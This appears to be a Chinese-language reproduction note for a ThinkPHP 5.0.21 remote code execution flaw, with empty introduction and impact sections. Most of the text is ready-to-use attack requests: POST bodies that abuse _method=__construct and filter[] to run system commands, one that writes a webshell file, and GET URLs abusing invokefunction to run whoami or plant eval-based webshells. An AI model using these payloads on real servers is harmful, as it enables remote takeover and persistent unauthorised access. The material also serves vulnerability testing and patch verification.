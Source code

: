 # Thinkphp 5.0.21

> 原文：[https://www.zhihuifly.com/t/topic/3154](https://www.zhihuifly.com/t/topic/3154)

# Thinkphp 5.0.21

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST 
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc 
```

> 写shell

```
POST `_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET

POST ?s=captcha

_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get>` 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### get请求

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami"); 
```

### get请求

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]); 
```